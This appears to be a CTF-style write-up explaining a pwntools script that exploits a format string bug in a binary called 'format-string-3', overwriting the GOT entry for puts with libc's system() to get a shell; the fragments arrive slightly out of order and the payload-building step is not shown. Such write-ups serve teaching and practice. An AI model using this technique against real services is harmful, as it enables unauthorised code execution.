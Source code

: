 ```python

r.sendline(format_string)
r.interactive()
```

# Format String Exploit Code Breakdown

## Overview
This Python script uses the `pwntools` library to exploit a format string vulnerability in a binary (`format-string-3`). The objective is to overwrite the Global Offset Table (GOT) entry for `puts` with the address of `system()` from libc, enabling the execution of a shell.

## Code Breakdown

### Imports and Setup
```python
import sys
from pwn import *
from pwnlib.elf.elf import *
from pwnlib.fmtstr import *

context.arch='amd64'
```
- **Imports**:
  - `sys`: For command-line argument handling.
  - `pwn`: The main pwntools library for exploitation.
  - `pwnlib.elf.elf`: To handle ELF binaries.
  - `pwnlib.fmtstr`: To simplify format string payload creation.

- **Context**: Set the architecture to `amd64` to indicate the target binary's architecture.

### ELF Loading
```python
fs3 = ELF('./format-string-3')
got_puts = fs3.got['puts']
```
- Load the target binary into an ELF object (`fs3`), allowing access to its symbols and sections.
- Retrieve the address of the `puts` GOT entry.

### Libc Loading
```python
libc = ELF('./libc.so.6')
libc_system = libc.symbols['system']
libc_setvbuf = libc.symbols['setvbuf']
```
- Load the libc library used by the binary to access its functions.
- Retrieve the addresses of `system` and `setvbuf` from the libc.

### Remote Connection
```python
host = sys.argv[1]
port = int(sys.argv[2])
r = remote(host, port)
```
- Connect to the remote service using the host and port provided as command-line arguments.
